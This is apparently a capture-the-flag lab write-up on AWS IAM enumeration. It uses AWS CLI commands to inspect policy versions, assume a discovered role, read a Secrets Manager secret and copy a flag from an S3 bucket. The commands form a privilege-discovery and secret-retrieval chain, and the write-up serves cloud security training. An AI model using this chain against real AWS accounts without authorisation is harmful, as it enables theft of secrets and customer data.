# Intro to AWS IAM Enumeration

## Objective(s):
- Evaluate IAM security posture of Huge Logistics.
- Obtain the flag.
- Retrieve Secrets Manager secret.

## Enumeration
An Access Key ID as well as a Secret Access Key were provided for enumeration of Huge Logistics infrastructure. The provided credentials were used for authentication in the AWS CLI using the the following command:
Note: AWS Access Keys and Secret Access Keys are used to authenticate your requests to the AWS CLI and they are generated for a user in the IAM service in the AWS Console.
```bash
aws configure
```

<br>
<br>

The keys were set when prompted and the validity of the credentials were tested with the AWS equivalent of the whoami command for Linux:
```bash
aws sts get-caller-identity
```

<br>
<br>

From the above command the authenticated username for the AWS CLI was found. Further enumeration on the IAM user was conducted:
```bash
aws iam list-user-policies --user-name <user>
```

<br>
<br>
  
It was then discovered the user has a policy related to s3 attached to them. Further info on the policy was then obtained:
```bash
aws iam get-user-policy --user-name <username> --policy-name <policy_name>
```

<br>
<br>

Further enumeration was conducted listing attached policies:
```bash
aws iam list-attached-user-policies --user-name <username>
```

<br>
<br>

Enumerated the found attached user policies further by obtaining the different policy versions for the policy:
```bash
aws iam list-policy-versions --policy-arn <policy_arn>
```

<br>
<br>

After the policy versions were obtained further enumeration was conducted on the specific policy versions:
```bash
aws iam get-policy-version --policy-arn <policy_arn> --version-id <version>
```

<br>
<br>

We can then do further enumeration by checking out the dev01 policy we found:
```bash
aws iam list-policy-versions --policy-arn <policy_arn>
```

<br>
<br>

We can then get check the policy versions of the policy:
```
aws iam get-policy-version --policy-arn <policy_arn> --version-id <version>
```

<br>
<br>

Let's check another version to see if we find anything interesteing:
```
aws iam get-policy-version --policy-arn <policy_arn> --version-id <version>
```

<br>
<br>

From this policy version we find a role and another policy. This is why good enumeration is important you never know what you will find! Lets dig in some more into these new finds:
```
aws iam list-policy-versions --policy-arn <policy_arn>
```

<br>
<br>

Now let's get the policy version:
```
aws iam get-policy-version --policy-arn <policy_arn> --version-id <version>
```

<br>
<br>

From the policy version we see that we have permissions to the secrets manager service. We can get asecret value as well as describe secrets on the prod/Custoemrs resource. Now let's check out the role we found earlier.
```bash
aws iam list-attached-role-policies --role-name <role_name>
```

<br>
<br>

We can see the policy we just enumerated is attached to this role. So let's get the role information and see what permissions it allows:
```bash
aws iam get-role --role-name <role_name>
```

<br>
<br>

The user we currently have access to can assume the role found. the role was assumed for further enumeration:
```bash
aws sts assume-role --role-arn <role_arn> --role-session-name <session_name>
```

<br>
<br>

We obtained credentials for the role and we can configure them for further enumeration:
```bash
aws configure
```

<br>
<br>

It was shown from prior enumeration that this role can list secrets:
```bash
aws secretsmanager list-secrets
```

<br>
<br>

The found secret was obtained:
```bash
aws secretsmanager get-secret-value --secret-id <secret_id>
```

<br>
<br>

ListBucket and GetObject permissions were then discovered on for a s3 bucket in the account. With the permissions discovered and the bucket name obtained, the contents of the s3 bucket was listed out:
```bash
aws s3 ls s3://<s3_bucket>
```

<br>
<br>

The bucket contained the flag text file so that file was copied locally:
```bash
aws s3 cp s3://<s3_bucket>/<flag> .
```

<br>
<br>

## Reference(s)
- https://pwnedlabs.io/


